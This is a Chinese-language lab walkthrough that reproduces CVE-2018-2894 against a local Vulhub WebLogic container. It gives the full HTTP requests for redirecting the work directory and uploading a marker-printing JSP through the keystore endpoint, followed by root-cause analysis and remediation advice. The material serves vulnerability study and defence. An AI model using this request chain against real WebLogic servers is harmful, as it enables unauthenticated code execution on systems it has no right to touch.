# Weblogic 任意文件上传漏洞 (CVE-2018-2894)

## 1. 漏洞概述

CVE-2018-2894 是 Oracle WebLogic Server 的 WLS Web Services 组件漏洞，核心问题出现在 Web Services Test Page / Test Client 相关功能中。攻击者在特定条件下可以访问测试页面，修改工作目录，并通过 keystore 上传功能写入 JSP 文件，随后通过 Web 可访问路径触发 JSP 解析，造成远程代码执行。NVD 对该漏洞的描述是：攻击者可通过 HTTP 网络访问在无需认证的情况下利用漏洞，成功利用可能导致 WebLogic Server 被接管，CVSS 3.0 评分为 9.8。

Oracle 在 2018 年 7 月更新中修复了 WebLogic Web Service Test Page 中的任意文件上传问题；该测试页面在生产模式下默认禁用，因此漏洞利用存在一定前置条件。

---

## 2. 基本信息

| 项目   | 内容                                                              |
| ---- | --------------------------------------------------------------- |
| 漏洞名称 | WebLogic Web Services Test Page 任意文件上传漏洞                        |
| 漏洞编号 | CVE-2018-2894                                                   |
| 漏洞类型 | 任意文件上传 / JSP 代码执行                                               |
| 影响组件 | Oracle WebLogic Server WLS - Web Services                       |
| 影响版本 | Oracle 官方 2018 年 7 月 CPU 中列出的受影响版本包括 12.1.3.0、12.2.1.2、12.2.1.3 |
| 实验版本 | WebLogic 12.2.1.3                                               |
| 默认端口 | 7001                                                            |
| 关键路径 | `/ws_utc/config.do`、`/ws_utc/resources/setting/keystore`        |
| 风险等级 | Critical / 高危                                                   |
| 复现工具 | Docker、Vulhub、Burp Suite、浏览器                                    |

Oracle 2018 年 7 月 CPU 风险矩阵中，CVE-2018-2894 对应 WebLogic Server 的 WLS - Web Services 子组件，协议为 HTTP，CVSS 3.0 评分为 9.8，影响版本列为 12.1.3.0、12.2.1.2、12.2.1.3。

---

## 3. 漏洞前置条件

Vulhub 环境中需要先登录 WebLogic 控制台，在 `base_domain` 的高级配置中启用 Web 服务测试页面；之后攻击者访问 `/ws_utc/config.do`，将 Work Home Dir 设置为 `ws_utc` 应用的静态 CSS 目录，因为该目录无需认证即可访问。

| 条件                         | 说明                  |
| -------------------------- | ------------------- |
| WebLogic 版本受影响             | 实验环境为 12.2.1.3      |
| Web Services Test Page 可访问 | Vulhub 中需要登录控制台手动启用 |
| `/ws_utc/config.do` 可访问    | 攻击面入口               |
| 可修改 Work Home Dir          | 将上传目录改到 Web 可访问目录   |
| 上传 JSP 文件后可被访问             | 最终形成代码执行            |

---

## 4. 实验环境搭建

进入Vulhub对应目录：

```
cd ~/labs/vulhub/weblogic/CVE-2018-2894
docker compose up -d
```

查看容器状态：

```
docker compose ps
```



查看管理员密码：

```bash
docker compose logs | grep password
```



管理员用户名密码：

```bash
weblogic
xxxxxx
```

访问控制台：

```
http://127.0.0.1:7001/console
```



---

## 5. 启用Web服务测试页面

后台主页：



登录后台后：

```
base_domain  
    -> Configuration
        -> Advanced
          -> Enable Web Service Test Page
```


勾选后保存配置。

然后访问：

```
http://127.0.0.1:7001/ws_utc/config.do
```

如果页面正常打开，说明测试页面已启用。



---

## 6. 复现流程

### 6.1 访问配置页面

浏览器访问：

```
http://127.0.0.1:7001/ws_utc/config.do
```

在Burp HTTP history 中出现请求：

```
GET /ws_utc/config.do HTTP/1.1
Host: 127.0.0.1:7001
```

这个页面是漏洞利用链的入口。



### 6.2 修改Work Home Dir

在 `/ws_utc/config.do` 页面中，将工作目录设置为：

```
/u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/com.oracle.webservices.wls.ws-testclient-app-wls/4mcj4y/war/css
```

这个目录的关键点是：

- 它位于 ws_utc 应用的静态 css 目录下  

- 上传后的文件可以通过 /ws_utc/css/... 访问

Detectify 对该漏洞的技术说明也提到，攻击者需要设置一个可写的 Work Home Dir，常用路径就是 `servers/AdminServer/tmp/_WL_internal/com.oracle.webservices.wls.ws-testclient-app-wls/4mcj4y/war/css`，之后可在 Security 标签上传 JSP 文件。



### 6.3 准备测试JSP文件

`poc.jsp`

```
<% out.println("CVE-2018-2894-OK"); %>
```

### 6.4 上传JSP文件

在页面中进入：

Security  -> Add





选择`poc.jsp`上传。



名称和密码均设置为b，上传成功。



文件上传会以 `multipart/form-data` 形式提交到 `/ws_utc/resources/setting/keystore`，服务端响应 XML 中会包含用于访问文件的 `keyStoreItem ID`。

### 6.5 从响应包中提取时间戳 / ID

上传成功后，响应包中返回时间戳形式的ID：



最终上传后的文件，访问路径格式为

`/ws_utc/css/config/keystore/[timestamp]_[filename]`

### 6.6 访问JSP文件验证漏洞

浏览器访问：

```
127.0.0.1:7001/ws_utc/css/config/keystore/1778660719436_poc.jsp
```

响应：



---

## 7. 关键请求总结

### 7.1 访问漏洞入口

```
GET /ws_utc/config.do HTTP/1.1
Host: 127.0.0.1:7001
```

### 7.2 修改工作目录

```
POST /ws_utc/resources/setting/options HTTP/1.1
Host: 127.0.0.1:7001
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest

setting_id=general&BasicConfigOptions.workDir=/u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/com.oracle.webservices.wls.ws-testclient-app-wls/4mcj4y/war/css&BasicConfigOptions.proxyHost=&BasicConfigOptions.proxyPort=80
```

### 7.3 上传 JSP 文件

```
POST /ws_utc/resources/setting/keystore HTTP/1.1
Host: 127.0.0.1:7001
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryxxxx

------WebKitFormBoundaryxxxx
Content-Disposition: form-data; name="ks_filename"; filename="poc.jsp"
Content-Type: application/octet-stream

<% out.println("CVE-2018-2894-OK"); %>
------WebKitFormBoundaryxxxx--
```

### 7.4 访问上传文件

```
GET /ws_utc/css/config/keystore/[timestamp]_poc.jsp HTTP/1.1
Host: 127.0.0.1:7001
```

---

## 8. 漏洞原理分析

这个漏洞的核心不是“普通上传点无限制”，而是：

```
Web Services Test Page 暴露
+
攻击者可修改 Work Home Dir
+
keystore 上传功能可写入文件
+
工作目录被指向 Web 可访问静态目录
+
上传 JSP 后被 WebLogic 解析执行
```

也就是说，漏洞利用链里最关键的是 **上传目录可控**。如果上传目录只是普通临时目录，即使能上传 JSP，也未必能通过 URL 访问；但当 Work Home Dir 被设置到 `ws_utc` 应用的静态资源目录下，上传文件就会变成可访问资源。

Check Point 的漏洞说明也指出，该漏洞与 keystore 文件输入校验有关，远程未认证攻击者可通过构造请求触发任意文件上传，成功利用后可能导致目标应用任意代码执行。

---

## 9. 成功判断标准

| 判断项      | 成功表现                                                |
| -------- | --------------------------------------------------- |
| 测试页面可访问  | `/ws_utc/config.do` 返回配置页面                          |
| 工作目录修改成功 | 页面提示保存成功，Burp 响应中无报错                                |
| JSP 上传成功 | `/ws_utc/resources/setting/keystore` 响应中返回 ID / 时间戳 |
| 文件可访问    | `/ws_utc/css/config/keystore/[id]_poc.jsp` 返回 200   |
| JSP 被解析  | 返回 `CVE-2018-2894-OK`，而不是 JSP 源码                    |

---

## 10. 常见失败原因

| 现象                      | 原因                        | 处理                      |
| ----------------------- | ------------------------- | ----------------------- |
| `/ws_utc/config.do` 404 | Web Service Test Page 未启用 | 回控制台启用                  |
| 上传后访问 404               | Work Home Dir 设置错         | 检查目录路径                  |
| 上传成功但无法访问               | 文件不在 Web 可访问目录            | 确认是否是 `war/css` 目录      |
| 返回 JSP 源码               | JSP 未被解析                  | 路径或应用目录不对               |
| 找不到时间戳                  | 没看上传响应包                   | Burp HTTP history 找上传响应 |
| 控制台登录不上                 | 密码没取对或容器未完全启动             | `docker compose logs    |
| 页面卡顿                    | WebLogic 启动慢              | 等 1-3 分钟再访问             |

---

## 11. 修复建议

### 11.1 安装 Oracle 官方补丁

优先安装 Oracle 2018 年 7 月 Critical Patch Update 或更高版本补丁。Oracle 官方 CPU 中已将 CVE-2018-2894 列入 WebLogic Server 高危漏洞修复项。

### 11.2 禁用 Web Services Test Page

生产环境不应开启 Web Services Test Page。Vulhub 说明中也提到，该测试页面在生产模式下默认禁用，因此生产环境开启该功能会显著扩大攻击面。

### 11.3 限制管理端口访问

不要将 WebLogic 管理控制台和测试页面直接暴露到公网：

```
/console
/ws_utc/
/ws_utc/config.do
/ws_utc/resources/
```

建议只允许内网 VPN 或堡垒机访问。

### 11.4 WAF / 反向代理拦截

可对以下路径进行访问控制或拦截：

```
/ws_utc/config.do
/ws_utc/resources/setting/options
/ws_utc/resources/setting/keystore
/ws_utc/css/config/keystore/
```

尤其是 `multipart/form-data` 上传请求，需要重点关注。

### 11.5 最小化部署

不需要的开发、测试、示例组件不要部署到生产环境。这个漏洞本质上就是测试功能暴露到不该暴露的位置，才导致攻击链成立。


